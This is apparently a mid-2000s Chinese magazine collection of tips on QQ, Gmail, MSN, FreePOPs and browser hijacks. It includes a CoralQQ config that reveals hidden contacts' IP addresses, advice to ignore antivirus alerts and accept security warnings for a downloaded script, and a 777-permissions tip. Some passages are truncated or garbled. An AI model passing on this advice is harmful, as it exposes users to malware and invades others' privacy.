BHO，即 Browser Helper Objects，指的是浏览器的辅助模块（或称辅助对象），这是一些扩充浏览器功能的小插件。这里面鱼龙混杂，诺顿杀毒、Google等都可能出现在这里。通常可以用软件 Hijackthis 结合微软的反间谍软件来解决，Hijackthis 下载地址为 http://nj.onlinedown.net/soft/37094.htm，微软的反间谍软件下载地址为 http://www.onlinedown.net/soft/37452.htm。

### 3. 巧妙避免误进假网银

前阵子，网络上出现了假的中国工商银行网站、假的中国银行网站，给众多使用网上银行的用户们心中蒙上了乌云般的惆怅。大家都担心自己在使用网上银行时也将遭遇不测，主要原因是搜索引擎中、E-mail 中的银行网站地址有可能是假的。这里教你一招，让你尽可能不会误进假网上银行网站了。

首先，到 http://dl.3721.net/download/assist4.exe 下载最新的上网助手程序，将其安装到系统后重新启动。然后打开 IE 浏览器，在 IE 地址栏中直接输入正确的银行中文名称（例如：中国农业银行），回车后，IE 浏览器就会自动打开该银行的网上银行网站页面，不必担心被骗的结果了。

### 4. "about:blank" 劫持

打开一个空白的网页，地址栏中显示为“about:blank”，原本空白的网页显示为一个标志为“Search for”的页面（见图5）。这是由于电脑感染了“搜索引擎木马”的新变种造成的。



侦破结果：只要我们经常更新杀毒软件病毒库，并把系统的补丁打全了，一般都能防范类似的病毒。

小编有话说：恶意网站就好像街头的小广告一样难以禁止。由于我国目前在反恶意网站、程序管理上尚存在法律空白和技术难度，以至于恶意网站、木马程序、间谍广告的大量孽生，所以大家自己要注意提高安全意识，比如经常更新 Windows、升级杀毒软件病毒库，上网的时候记得开防火墙和反病毒软件，同时注意做好系统的备份工作，这样一旦出现问题而无法解决，还可以通过恢复系统的办法来解决。

(LY 呆瓜)

## QQ for Maxthon(简称 QQMax) 小档案

软件版本: 1.0
软件大小: 602KB
软件性质: 免费软件
运行平台: Windows 2000/NT/XP/2003
下载地址: http://www.onlinedown.net/soft/35572.htm

## 用浏览器养只 QQ

Maxthon 是非常流行的浏览器，现在通过给它添加插件，不用开 QQ 软件就能和好友们聊天！为什么要用它上 QQ？这里至少有三大原因：占用资源极少；遇到某些网络故障时可以替代 QQ；可以多账号登录。

下载 QQ for Maxthon 后，得到一个压缩包，将它解压到 Maxthon 浏览器的安装目录下的 Plugin 文件夹中即可完成安装。

当再次运行 Maxthon 时，会提示发现新插件“QQ for Maxthon”，点“确定”使用它。然后再单击“侧边栏”按钮，在出现的侧边栏窗口中点击最下方的 QQ 企鹅图标来打开 QQMax。

输入 QQ 账号密码登录后，软件界面如图 1 所示，软件主界面分为“Friends online”在线好友和“Friends offline”离线好友两栏，基本操作和在 QQ 中一样，双击打开聊天窗口，Ctrl + Enter 键发送信息，即使你关闭了侧边栏，QQMax 仍然会继续运行，既不影响浏览网页又可让 QQ 等级再上新台阶，还不快来！不过，目前它还不支持好友分组功能，比较遗憾。



### 实例 1: QQ 账户分身有术

你可以开一个原版 QQ，然后用 QQ for Maxthon 打开另外一个，甚至可以同时登录一个 QQ 号码。由于占用系统资源很小，你可以在不想用 QQ 的时候让 QQ for Maxthon 替你“挂机”，帮你升级 QQ，又不影响其他操作，很是方便。

### Just Do It

你的朋友没有 QQ 号码，想借你的号码用一下，可是你现在也要用 QQ 聊天，知道该怎么办了吗？

### 实例 2: 用浏览器聊 QQ

你可能遇到过这样的网络故障：可以上网浏览网页，但是 QQ、MSN 全部停工，无法连接成功。在排除腾讯公司服务器出问题的情况下，你可以用 QQ for Maxthon 替你解决一下问题，通常只要浏览网页没问题，QQ for Maxthon 就可以正常工作。

### 实例 3: 给腾讯 QQ 加一个“小弟弟”

其实 QQMax 不仅可以运行在 Maxthon 中，还可以在其他浏览器中使用。在 QQMax 文件夹中直接双击运行 qqmax.html，就会调用浏览器打开它，按照屏幕提示输入 QQ 账号和密码登录即可使用。现在我们再利用一个腾讯 QQ 的“DIY”面板，让它入驻到腾讯 QQ 中，这样我们就可以一个 QQ 程序挂两个 QQ 了。

第一步：运行腾讯 QQ，单击 QQ 侧边栏中的“DIY”按钮切换到“用户自定义面板”。单击“添加链接”按钮（或者执行“收藏夹→设置”命令），打开“收藏夹管理”窗口。
第二步：点击“添加”按钮，在“详细信息”下的“名称”中输入任意自己想看到的名称，在“链接”中，输入输入“qqmax.html”的详细地址，由于我的 QQMax 解压到了 Maxthon 文件夹下，所以目录为：“C:\Program Files\Maxthon\Plugin\QQMax\qqmax.html”，你可以根据自己的实际情况来确定。完成后，再点击“设为默认”按钮，这样以后只要在 QQ 中点击“DIY”按钮就可自动打开 QQMax 界面了。

上网高峰期，不能在同一台电脑上同时运行两个以上 QQ，需要挂机的你该怎么办？网络出现故障，除了浏览器可以用，QQ、MSN 无法使用，急于联系朋友的你如何是好？

### 小提示

★通过网页登录 MSN Messenger 聊天：http://webmessenger.msn.com/default.aspx?r=1。
★通过网页玩 “Yahoo” 通：http://messenger.yahoo.com/#webmessenger。

## 敢问 QQ 你快回来

## 同时挂 10 个 QQ 谁管得着

QQ 的等级提高了，既是自己超级网虫身份的象征，又可得到许多实用的功能（如建立固定群、更改 QQ 头像），所以现在越来越多的朋友都喜欢将自己的 QQ 挂在网上赚等级。可是 QQ2005 非常贪婪，“无耻”地占用许多系统资源。腾讯的服务还不允许在上网高峰时在同一台电脑上同时运行两个以上 QQ，看来得想个办法了。

### MyIM小档案

软件版本: 2004
软件大小: 5887KB
软件性质: 免费软件
运行平台: Windows 2000/NT/XP/2003
下载地址: http://www.MyIM.cn/downloads/MyIM2004.exe

安装后打开 MyIM，首先如同使用 QQ 一样注册一个新账号。注册后会打开导入 QQ、MSN 账户资料的对话框，如果你想将保存在自己硬盘上的 QQ 安装目录下的有关资料导入，点击“下一步”，根据屏幕提示完成操作。当然也可点击“取消”，从而手动添加自己的 QQ 资料。



点击 MyIM 菜单，选择“账户管理器”，在打开的对话框中选择“添加新用户”，在“服务类型”中选择“QQ”，再输入用户名和密码，最后点击“保存”按钮完成设置（见图 2）。

### 小提示

勾选“自动登录”和“保存密码”可以让你的 MyIM 自动登录多个 QQ，这样就省去了输入密码的麻烦。



同样，我们可以按照上面的方法添加多个 QQ 新用户，把自己所有 QQ 都挂上吧。可喜的是 MyIM 非常节省内存，如图 3，笔者挂了 3 个 QQ，内存只消耗了 900KB，真爽！

## 免费的网上即时贴

当你在网上浏览的时候，一定会有一些网址、E-mail 等信息需要记录下来，发邮件太麻烦了，经常看到 Q 友的“个人说明”里记着朋友的电话号码、地址或者一些网址，空间有限也不太安全，要是 QQ 里有个记事本就好了。其实，在 QQ2004 II Beta2 及以上版本中就免费开始提供该功能。在 QQ 主界面中单击“网络硬盘”标签，双击“我的网络硬盘”再双击“个人助理”，再在“网络记事本”上点右键选择“打开记事本”就可以打开 QQ 网络记事本了（见图 4）。这下朋友的电话、地址、网址可以随意记了。你也来试试吧！



(闫艳力 庄鹏)

## 酷企鹅变身 “K歌之王”

在这个网络无所不在的时代，人们欣赏音乐的方式也在悄悄地发生着变化，从最早的磁带、CD逐渐演变到了MP3、WMA等所代表的网络音乐格式。但是，网络中信息量巨大，大量制作粗糙的音乐文件流传于网络，在这个时候就需要有种好的音乐软件来担当披沙拣金的重任。前段时间出世的QUSIC（QQ Music的缩写，寓意QQ与music音乐的完美结合）来到了我们面前。

## 聊天的时候听听歌

作为腾讯公司的创新之作，QUSIC已经集成到了最新的QQ软件中，大家只要到 http://im.qq.com/qq/qq2005.shtml 去下载2005贺岁版的QQ就能使用QUSIC了。

## 实例：把 Media Player 嵌入 QQ

QUSIC已经和QQ的主面板融合在一起，对于日常简单的播放等操作，只需点击QQ面板下方的各个播放操作按钮即可。很多朋友都喜欢边听歌边用QQ聊天，如果另外开启一个播放器，占用宝贵的系统资源不说，操作也不太方便。点击QQ软件右下方按钮，就可以启动到完整的QUSIC模式（见图1）。在这种模式下，你可以较快地寻找自己喜欢的歌曲，并对自己硬盘和网络音乐库中的歌曲进行管理和组织播放。软件可以支持的音乐格式有WMV、WMA、MP3等，基本上涵盖了目前流行的音乐格式。



第一步：首先，要注册一下你的音乐账户。在主界面右上角的“音乐账户”中可以进行注册。注意，在4月30日之前注册，可以按照半价，即每月10元的价格听歌，歌曲数量完全没有限制。

第二步：当你看到喜欢的音乐专辑，只要点击一下进入之后，就能看到专辑中的歌曲了（见图2）。



第三步：进入专辑页面后，按下“试听”按钮下方的耳机图标，就可以听到歌曲了。按下旁边的加号，将歌曲加入到音乐库中，按下播放按钮就可以开始播放歌曲了。按下主窗口右上角的第一个按钮，就能将窗口缩小到QQ面板中，而播放按钮处会自动播放。

## Just Do It

音乐库中不仅可以存放QQ提供的音乐，也能加入自己电脑上存放的音乐。播放这些音乐你不需要花钱注册，只要在主界面选择“添加→添加本地歌曲”就行了，这是完全免费的功能。

## 你知道吗？

嵌入面板的MINI播放器还可以方便地拉到桌面上，脱离QQ单独使用。这样，即使不打开QQ，也能用它来欣赏音乐。方法是用鼠标左键拖动QQ Music左端的竖条，拖到外面就可以单独使用了。

## 正版歌曲才能享受高质量

必须承认，目前在网上流传着大量盗版的音乐作品，这里面以MP3流行歌曲最为常见。在相当长的一段时间内，盗版歌曲风行网上。但是到了今天，国家对版权保护工作越来越重视，而人们的版权意识也在加强。在网上一搜索，你会发现盗版歌曲已经越来越少。喜欢听音乐的爱好者，对音乐质量的要求也越来越高，低质量的音乐已经不能满足我们。以前，流传在网络上的歌曲大部分都是版权不清、制作粗糙的歌曲，不仅音质差，有些连内容也不完整，听起来毫不伤心。QUSIC在这点上做得不错，他们保证了其音乐网站内众多歌曲出众的品质和明确的版权，有了QUSIC，以后再也不用偷偷摸摸地到处找盗版音乐了，我们也能理直气壮地说出那句名言来：“我用正版，我自豪！”

## 快把 IPOD 搬进电脑里

用过IPOD的朋友，都知道苹果有个在线音乐商城，在那里可以用十分低廉的价格来购买众多正版音乐，而零售业巨头沃尔玛也在前不久推出了自己的在线音乐商城，价格也十分便宜，但可惜他们都是面向欧美用户的，对国内的用户来说，不仅音乐的类型不合口味，而且支付模式上也存在着很多不方便。现在有了QUSIC，我们再也不用羡慕欧美的音乐爱好者了，QUSIC也有自己的在线音乐商城，以后我们也可以堂堂正正地用很低的价格来欣赏自己所喜欢的音乐了。在商城里面，有着十分丰富的音乐资源，商城以专辑为单位，按地域与专辑类型来分类。分为港台发烧、内地流行、欧美精彩等地域，并可用歌手分类、字母排序等方式进行搜寻。商城还包括每日更新的实时排行榜，真实反映用户的喜爱、歌曲的受欢迎度。

## 你知道吗？

## 去掉 QQ 音乐工具条的方法

QQ2005中的音乐工具条，如果你并不常用，通过以下方法可以去掉：

找到你的QQ安装目录下的\NewSkins\QQ2005下的VBScript.vbs文件，找到第38行的“BackgroundC.height = cy - 125”，在它的后面加入以下内容：

```
MusicPlayer.height=0
MusicPlayer.width=0
MusicPlayer.bInside=FALSE
```

这样再登录QQ的话，就没有了音乐工具条了。

（河南 塞外鸣沙）

## 告急！OE、Foxmail 无法接收 Hotmail 信件

最近，笔者用Outlook接收Hotmail信箱总是不成功，开始也没注意，但几天下来都不行，这时才注意到如图1的错误提示窗口中的文字，真是可恶呀！无奈下，安装了Foxmail，因为其中提供了Foxmail-Hotmail代理服务器（FoxHot.exe），但结果还是不行。



后来笔者终于在《电脑爱好者》2004年《“邮”刃有余FreePOPs》中找到了解决方案，通过文章介绍的FreePOPs不仅能让任意邮件客户端软件轻松、快速地接收Hotmail、Gmail、Yahoo等Web邮箱中的邮件，而且还可以将网上丰富的RSS资源接收到邮件客户端中！首先要提醒你，FreePOPs必须得安装最新的0.0.26版和相应插件才能接收Hotmail邮箱中的邮件，它们的下载地址分别是：

FreePOPs: http://jaist.dl.sourceforge.net/sourceforge/freepops/FreePOPs-0.0.26.exe
Hotmail插件: http://cogent.dl.sourceforge.net/sourceforge/freepops/hotmail.lua

安装完FreePOPs后，再将hotmail.lua保存到软件安装目录的LUA文件夹下（一般为C:\Program Files\FreePOPs\LUA）。

## 1. 如何接收 Hotmail 邮箱中的邮件

因为《“邮”刃有余FreePOPs》一文已经详细介绍了如何使用FreePOPs接收邮件，这里就以OE为例，简要提一下使用要点。

第一步：点击“工具→账户→邮件→添加→邮件”添加新邮件账户，在向导执行到“电子邮件服务器名”处，请按如图2进行修改。



其他步骤同常规添加方法，注意用户名要填写 xxx@hotmail.com（邮箱地址）。

第二步：完成账号添加后，再次进入“工具→账户→邮件”，在列表中选中刚才添加的Hotmail后单击“属性”按钮，进入“高级”选项卡将“接收邮件（POP3）”的端口号改为2000（见图3）。接下来收取一下Hotmail信箱，是不是速度飞快？！

## Just Do It

如果你有Gmail邮箱，请尝试添加到OE或Foxmail中；要注意的是用户名同样要用邮箱地址，比如 xxx@gmail.com。



## 2. 让 OE 摇身变成 RSS 阅读器

通过研究，笔者发现FreePOPs还能让OE、Foxmail等邮件客户端软件可以接收RSS资源！比如在 http://www.baidu.com/search/rss.html 找到自己感兴趣的RSS地址。

第一步：按照前面添加Hotmail信箱的方法添加RSS，注意“显示名”、“电子邮件地址”、“发送邮件服务器”可以任意填，但“账户名”应填写为设置为“xxx@aggregator”（xxx随便你输入什么单词），“密码”一项RSS链接的地址，例如科技新闻的 http://news.baidu.com/n?cmd=4&class=technnews&pn=1&tn=rss。最后别忘了把POP3的端口号改为2000。

第二步：接收一下添加的RSS账户，是不是很不错？！

为了便于单独管理，建议在OE中专门创建一个文件夹来管理RSS资源，接着选中某个邮件，点击“邮件→从邮件创建规则”，在“选择规则条件”中勾选“若邮件来自指定的账户”，在“选择规则操作”中设置为“移动到指定的文件夹”，下面不用我说你也会做了吧！

（北京 ABC）

## 显隐身 让我看到透明的你

## QQ 2005贺岁版之珊瑚虫版小档案

- 软件版本:3.04
- 软件大小:16864KB
- 软件性质:共享软件
- 运行平台:Windows 2000/NT/XP/2003
- 下载地址:http://nj.onlinedown.net/soft/32845.htm

## 实例1: 给让珊瑚虫添加“透视眼”

本文的主角是珊瑚虫版QQ外挂（集成版或外挂版都可以），它是使用最广泛的显IP QQ外挂，甚至有人说，腾讯QQ之所以这么多人使用，与珊瑚虫外挂的出现有很大关系，因为它把QQ上面的广告去掉了，还用户一个干净的聊天环境。对于这一说法我们不置可否。下面我们谈谈具体实现方法。

```
IpFormat=(%l=0.0.0.0)?(%o=0?对方处于离线或隐身状态:对方在线，但无法得到对方IP%p%V):%A%a%p%l:%P%V
```

## 实例2: 复制好友资料一键通

除了显隐身功能以外，珊瑚虫QQ外挂还提供IP信息复制功能。当需要将好友QQ号、昵称等信息复制下来，以往需要进入“菜单→好友资料→好友管理器”，然后再导出资料，很是麻烦。珊瑚虫QQ外挂为我们提供了一种新思路。珊瑚虫QQ外挂控制“主面板悬停IP格式”和“鼠标右键复制IP信息格式”的字段分别为TipFormat和MouseFormat，修改其中的代码就可以实现想要的功能。



小编有话说：由于代码较长，限于篇幅，这里就不列出来了。大家可以下载已经做好的CoralQQ.ini参考一下（下载地址:http://www.newhua.com/cfan/200508/显IP文件.rar）。由于其中还保存有大量珊瑚虫QQ的设置（如IP显示位置等），建议只替换相关字段，避免丢失原来的设置。在下载的文件中，两个相关字段均在正文的最下面。
（广东 Hmily）

## 好用不难学 Gmail玩得飞起来

## Gmail账户，想拿多少请便！

尽管Gmail已经问世一年多了，但Google至今仍然没有完全开放它的免费申请功能。要获得Gmail账户，只能通过有Gmail邀请权的用户向你发送邀请。如果你至今还未拥有Gmail账户，那就用下面两招吧，易如反掌！



接点击该链接即可注册获得Gmail账户。当然，由于账户都是随机发放，这招就看大家的运气了。
格式2: 网上已经有很多慷慨的Gmail用户自动为大家提供Gmail邀请，打开http://isnoop.net/gmail/，在页面的“Anti-bot key”栏中填写旁边图片中的验证码，并在“Your email”中填写自己的邮箱地址（最好使用Hotmail等国外邮箱，不过由于受到攻击，最好暂时不用Yahoo邮箱申请），最后单击“Request invite”即可，该方法可谓百发百中（见图2）。如果你拥有Gmail邀请，不妨也加入到这些好心人的行列: 单击“Send an invite to the gmail invite spooler”，接下来登录你的Gmail账户，将邀请发送到gmail@isnoop.net即可。



## Gmail“漏洞”的超级妙用

由于Gmail账户的用户名可以使用“.”、“+”等特殊字符，而Gmail会过滤掉邮箱地址中的这些特殊字符，所以网上有人就宣称“如果给aa.bb@gmail.com发一封邮件，那么aabb@gmail.com、a.abb@gmail.com等邮箱也能够收到这封邮件，这样下去就乱套了……”
实际并非如此，打个比方: 如果你申请了一个aa.bb@gmail.com的Gmail账户，那么aabb@gmail.com、a.abb@gmail.com等账户都已经被你“连锅端”了，别人是无法再注册这些地址的。Gmail的这个所谓“漏洞”，实际上却为我们的使用带来了无穷的便利。

## 妙用1:‘狡兔三窟’对付垃圾邮件

大家都知道，如果我们在论坛上公布自己的邮箱地址会招惹垃圾邮件，但有了Gmail的“一变多”邮箱地址，一切就好办多了。在公布自己的邮箱地址时，可以使用a.abb@gmail.com，这样不会影响网友给我们发送正常邮件，如果一旦发现垃圾邮件增多，可以在Gmail中依次选择“Settings→Filters→Create a new filter”设置，将发往该地址的邮件直接转移到Gmail的Spam（垃圾邮件）文件夹中。该功能与Yahoo! Mail的替身邮有异曲同工之妙。

## 妙用2:让邮件乖乖地分流管理

很多朋友拥有多个邮箱，不同邮箱有不同用途，比如用于工作、私人、订阅电子杂志……这需要记忆很多邮箱名称、用户名和密码。有了Gmail，你就可以放弃以前的邮箱，利用Gmail的“一变多”邮箱地址，为不同用途创建不同的邮箱变体，比如工作用a.abb@gmail.com，私人用a.bb@gmail.com，订阅电子杂志用aa.b@gmail.com，然后在Gmail中设置过滤规则，将不同变体地址收到的邮件自动分类到不同的文件夹中，这样就能轻松管理所有邮件了。

了，取而代之的是类似 user+work@gmail.com, user+game@gmail.com 等地址，而且可以让发往这些地址的邮件自动被归类到不同的文件夹中，管理起来比以前方便得多。其实现方法为：



第一步：首先依次选择 ‘Settings→Labels’，在 ‘Create a new label’ 栏填写 ‘work’，单击 ‘Create’ 按钮（见图3）。



第二步：切换到 ‘Filters’ 标签，单击 ‘Create a new filter’ 链接，在 ‘To’ 栏中填写 ‘user+work@gmail.com’（user 代表你的 Gmail 账户的用户名），单击 ‘Next Step’ 按钮，在打开的页面中勾选 ‘Skip the inbox(Archive it)’ 和 ‘Apply the label’ 并在下拉列表中选择 ‘work’，单击 ‘Create Filter’ 按钮（见图4）。对其他用途的地址做类似的添加工作。

这样一来，你的不同 Gmail 地址就可以行使不同的功能了。比如，发往 user+work@gmail.com 的工作邮件被 Gmail 接收后自动分拣到 work 文件夹中，而发往 user+game@gmail.com 的电子杂志则被自动分拣到 game 文件夹中啦！

## 有 Foxmail 就能收发 Gmail

大家可能知道，利用 FreePOPS 等第三方软件的辅助，我们可以用邮件客户端来收发 Gmail。实际上，Google 已经在陆续开放 Gmail 对 POP3 和 SMTP 的支持。如果大家在自己的 Gmail 的 ‘Settings’ 中发现了 ‘Forwarding and POP’ 链接，那么恭喜你，你可以使用邮件客户端来收发 Gmail。

第一步：进入到 ‘Forwarding and POP’ 页面，勾选 ‘Enable POP for all mail’（如果你只想用邮件客户端接收今后发送到 Gmail 邮箱的邮件，则选择 ‘Enable POP only for mail that arrives from now on’），设置完毕单击 ‘Save Changes’ 按钮（见图5）。

小提示：要让 Gmail 支持客户端收发邮件，必须满足三个条件：其一，Google 为你开启了 POP3 支持；其二，你使用的操作系统为 Windows 2000 以上版本；其三，你使用的邮件客户端必须支持 SSL 功能，Foxmail、Outlook、Outlook Express、Dreammail 等主流邮件客户端的最新版本都支持该功能。



## 用 Gmail 来写 Blog

有朋友可能会觉得奇怪，Gmail 和 Blog 根本是八竿子打不着的两个东东嘛，用 Gmail 也能写 Blog？答案是肯定的。我们可以利用一个叫做 Gallina 的软件来架设自己的 Blog，并通过撰写 Gmail 邮件的方式来发表 Blog。

第一步：Gallina 是一个利用 Gmail 函数库的 libgmaller，它能把 Gmail 中储存的信息以 Blog 形式输出的 PHP 小程序，它能下载 Gmail 邮箱里 Inbox 中带星号的邮件（也就是该邮件在 Gmail 中被设置为 ‘Starred’）抓取出来生成 xml，最后发表到 Blog 中。首先到 http://candyz.idv.tw/gmBlog/download/gallina-0.2c.tar.gz 下载其最新的 0.2c 版本。

第二步：用记事本打开 index.php、include/config.php 进行编辑，使其符合自己网站的地址以及 Gmail 用户名和密码，然后将程序用 FTP 软件上传到支持 PHP 脚本的网站空间，并设置 cache、template、gallina 目录为完全读写权限。

小提示：对于 cache、template、gallina 目录完全读写权限的设置方法，如果你不太明白，请咨询你的 Web 空间提供商；对于 Unix 操作系统的 Web 服务器，则将其文件夹属性设置为 777。

第三步：撰写一个包含 Blog 内容的邮件发送到自己的 Gmail 邮箱中，将该邮件设置为 ‘Starred’（加星邮件），这样我们就可以通过类似 ‘http://你的网站/gallina/index.php’ 的地址来加载邮件为 xml 文件，只要通过访问类似 ‘http://你的网站/gallina/gallina/index.xml’ 地址就可以访问自己的 Blog 了。

小提示：可能你会嫌每次撰写 Blog 都要先发一遍邮件再设置其为 ‘Starred’ 比较麻烦，其实你可以通过 Gmail 的 ‘Filter’ 设置来使撰写的邮件自动发布到 Blog 上，具体方法前文有所提及，就由大家自行完成吧。

## Web 邮箱与 Gmail 玩 ‘联姻’

在使用 Gmail 之前，很多朋友是 Hotmail 等邮箱的用户，如何让 Gmail 与这些邮箱共享联系人名单呢？实际上，Gmail 提供了邮件联系人专用 CSV 格式的导入功能，我们可以轻松将其他邮箱的联系人批量导入到 Gmail 中，而要将 Gmail 中的联系人导出为 CSV 文件则稍微复杂些。

1. 将 Hotmail 等邮箱联系人导入到 Gmail：首先在 Hotmail 或其他邮箱中将联系人导出为 CSV 文件，接下来在 Gmail 中依次选择 ‘Contacts→Import Contacts’ 链接，并浏览选择导出的 CSV 文件即可。

2. 将 Gmail 联系人导出到其他邮箱：Gmail 并没有提供联系人的导出功能（也许 Google 觉得使用了 Gmail 就不会再想用别的邮箱了吧 ^_^），不过我们也不用一个个地将邮件地址 ‘搬迁’：第一步：首先到 http://www.newhua.com/cfan/200509/js.txt 下载一段代码。注意：要用 Flashget 等下载工具下载，不要直接在浏览器中下载，否则会打不开。有些杀毒软件可能会认为是病毒程序，不用理睬，它是安全的。

第二步：在 Gmail 中进入 ‘Contacts’ 页面，查看该页面的源代码（点右键选择‘查看源文件’），将其中的 ‘<script>var ts=(top.js&&top.js.init)?function(){top.js.init(window,d):function(){};if(window==top){top.location='javascript:void(0);'};view=d&search=contacts&pn=0&zx=33650786391514308274019&fs=1';</script>’ 这一段代码（不包括最外侧双引号）替换为下载的代码。

```
<script>var ts=(top.js&&top.js.init)?function(){top.js.init(window,d):function(){};if(window==top){top.location='javascript:void(0);'};view=d&search=contacts&pn=0&zx=33650786391514308274019&fs=1';</script>
```

第三步：将源文件保存为一个 HTML 网页文件，运行该文件，网页会弹出一个安全警告窗口。不必担心，单击‘是’确认。这时，可以到 C 盘根目录中找到一个 ContactName.csv 文件，将该 CSV 文件导入到其他邮箱中即可。

## 看看高手们为 Gmail 做了什么

Gmail 一推出就受到了全世界玩家的追捧，一些高手还为它制作了相当多的小工具，下面列出其中比较经典的：

1. Gmail Notifier: Google 推出的邮件提示工具，当你收到新的 Gmail，就会在系统托盘处弹出一个提示框，就像 MSN 的邮件提示一样。不同的是，它还可以显示出邮件标题、发件人和内容摘要。下载地址：http://toolbar.google.com/gmail-helper/
2. Gmail Drive shell extension: Gmail 邮箱空间高达 2GB，如何用好它是个问题。Gmail Drive 会在“我的电脑”中建立一个虚拟的驱动器，这样，当你在这个虚拟驱动器中建立一个新文件的时候，Gmail Drive 会自动发送一封邮件到你的邮箱中，而这个文件就是邮件的附件。这样，就相当于将文件上传到你的 Gmail 账户中，使用起来相当方便。下载地址：http://www.viksoe.dk/code/Gmail.htm
3. Gmail Todo: 如果你经常使用 Gmail，把你的日程安排加到 Gmail 中是个不错的主意。下载地址：http://gmtodo.sourceforge.net/
4. G-Mailto: 当你在网上看到一些邮件链接的时候，想不想直接点击它就能用 Gmail 打开？G-Mailto 可以帮你这个忙，即使你还没有登录 Gmail，它仍然可你帮你先登录，然后再写信。扔掉 OE 吧，Gmail 彻底接管邮件系统！http://www.rabidsquirrel.net/G-Mailto/

## 一句话一个小技巧

如果你仔细研究过 Gmail 的 Help（帮助）网页，会发现蕴藏在 Gmail 中的有用技巧实在太多了。下面笔者结合自己的经验，给大家带来一些经验之谈。看完它们，相信你对 Gmail 的使用会有新的认识，而且会跟笔者一样觉得：如果把 Gmail 跟其他邮箱相比，实在有些贬低它的身价 ^_^。

◆ 使用 Gmail 收发一些中文邮件可能会遇到乱码的问题，可以有两种解决办法：其一，使用邮件客户端来接收 Gmail 邮件；其二，在 Gmail 中进入邮件正文页面后，单击 “More options → Show original” 链接，这时候在新打开的页面中我们就可以正确查看该邮件的正文了。
◆ 依次进入 “Settings→General” 页面，在 “Keyboard shortcuts” 栏选择 “Keyboard shortcuts on” 后，可以通过快捷键来控制 Gmail，比如按下 “C” 则是撰写新邮件，按下 “/” 键将光标焦点定位到邮件搜索栏，按下 “R” 键是回复邮件，按下 “!” 键则是将该邮件设置为垃圾邮件。更多的快捷键请参考：http://gmail.google.com/support/bin/answer.py?ctx=gmail&answer=6594。
◆ 打开 http://www.nhacks.com/email/，在 “Enter your e-mail address” 栏中输入你的 Gmail 账户名，单击 “Generate” 可以生成一个以你的 Gmail 地址制作的图片，大家在自己的网站或者论坛中将该地址贴出来，可以避免垃圾邮件发送者扫描到该地址（见图6）。



◆ 如果 Gmail 长达 9 个月不登录使用，Google 将会中止你的账号。
◆ 在 Gmail 中撰写邮件，地址栏中用户名。

## 新的 MSN Messenger 我还要你更个性！

### CustoMess 免费送送送

当你在聊天窗口中按下表情、动漫传情等按钮后，会有一些内置的表情和漫画。但是，这些内容显然有限，不能满足我们的需要。其实，在此之前，国外一个以MSN Messenger为主题的网站——http://www.mess.be已经推出了免费更新MSN Messenger表情、背景、头像、字体等的软件，它就是今天的主角CustoMess。

### CustoMess 小档案

软件版本：RC2
软件大小：129KB
软件性质：免费软件
适用平台：Windows 9x/Me/2000/XP
下载地址：http://www.newhua.com/cfan/200509/customess.zip

安装并启动CustoMess，从界面上看（见图1），软件使用非常简单，左侧是类别，右侧是类别具体内容，如果喜欢某个表情、背景、头像等，可直接在右侧单击其图标，这时会出现“Do you wish to install this package”（你想安装这个数据包吗？），单击“Yes”按钮后会弹出“下载MSN Messenger内容”的安装进度条。

### 这个大宝藏不能不挖

http://www.mess.be/ 还蕴藏着无数好东东，下面就为大家挖掘一些出来：

1.  头像大集合：http://msn.mess.be/categories.php?cat_id=2
2.  表情大集合：http://msn.mess.be/categories.php?cat_id=3
3.  皮肤大集合：http://www.mess.be/pafiledb/pafiledb.php?action=category&id=15
4.  用表情符号组合文字：http://www.mess.be/msn-emoticons/index.php?act=Question&id=1&orderby=q_id&order=ASC&limit=25（光标移动到“Click to copy”会显示结果图形，按下后则会复制到剪贴板中，在MSN Messenger聊天窗口中粘贴即可）。如果你更喜欢自己创作，可以打开http://www.mess.be/_emote/FillColIinsClUbIscQoI.html进行创作（见图2）。
5.  名字也要COOL：http://www.mess.be/inickascii.htm（可以让你轻松用ASCII码组成漂亮的名字）

当然，这个网站还有极多宝藏，我们无法一一介绍，如果你在挖掘过程中有了新发现，别忘了发给我们（net@cfan.com.cn），让我们和40万读者共享。

### MSN Messenger 7.0 新功能快快看

MSN Messenger 7.0 正式版已经推出了，增加了不少新功能，比如 Winks（动漫传情）、拖放背景（将图片拖到聊天窗口即可替换背景）、显示当前正在欣赏的音乐等，这里介绍几个比较有特色的功能。

*   登录前设置自身状态
    以前，登录MSN的默认状态总是显示自己上线。可能有的朋友不希望这样，想先上去看看谁在。MSN 7.0支持这项功能，只要在“工具→选项→常规”中取消自动登录的选项，登录前就可以在登录界面中选择登录时的状态，选择“显示为脱机”就行了。
*   显示当前正在欣赏的音乐
    在“工具→选项→个人信息”下面选中“在个人消息中显示Windows Media Player正在播放的歌曲信息”，“确定”之后，用Windows Media Player播放音乐，你的好友就会在你的名字后面看到你播放的歌曲了，很有创意的功能吧。
*   MSN 新补丁来了
    新版本的MSN刚一推出，就已经有人推出了专门的补丁程序，可以用来删除MSN logo、Messenger标题、搜索栏、广告等不需要的信息，并支持多账户功能。下载地址：http://www.newhua.com/cfan/200509/a-patch.zip
*   显示每个人的头像
    进入“工具→选项→常规”，勾选“在主窗口中显示联系人的显示图片”，并选择“大缩略图”，这样在好友列表中就能看到对方选择的图像了。

## 轻松做主编 快乐办份E杂志

如今在网络中你可以轻松地将自己创作的或是喜欢的信息传播给地球上千千万万的人，比如：建个人主页、搭FTP、办论坛、开博客等，但许多朋友忽视了另一种流行已久的网络传播方式——邮件列表，也有人叫它电子杂志。它和博客一样，任何人都能轻松做到，甚至不需要一点网页制作基础。虽然这两年邮件列表在国内有些热潮退去，但看看国外，你会发现许多人依然在操作着自己的邮件列表，甚至还有人通过它赚到了不少钱。下面我们来和大家一起学习一下如何创办你的第一本电子杂志。

### 注册为希网高级用户

第一步：目前国内比较好的邮件列表服务提供商之一是希网网络(http://www.cn99.com)，登录其网站，首先在左侧上方单击“新用户注册”链接进行用户注册。
第二步：因为要创办邮件列表，所以在“新用户注册”页面中选中下方的“我还需要创建邮件列表”，这样会出现一个非常详尽的高级用户注册页面，你在这里注册提供的邮箱必须是电信、政府网、教育网的非免费E-mail，否则将不能通过验证。其中标有“***”的项目是必须填写的。
第三步：填写完成后，经过希网验证通过，你会收到一封“希网邮件列表用户确认信”，单击其中的“我要确认”按钮即可完成注册。现在你可以马上创建自己的电子杂志了。

### 创办你的杂志

第一步：打开希网网站，并使用注册的用户名和密码登录，接着单击页面右上方的“创办”链接，然后在打开的页面中单击“创建新的列表”按钮。
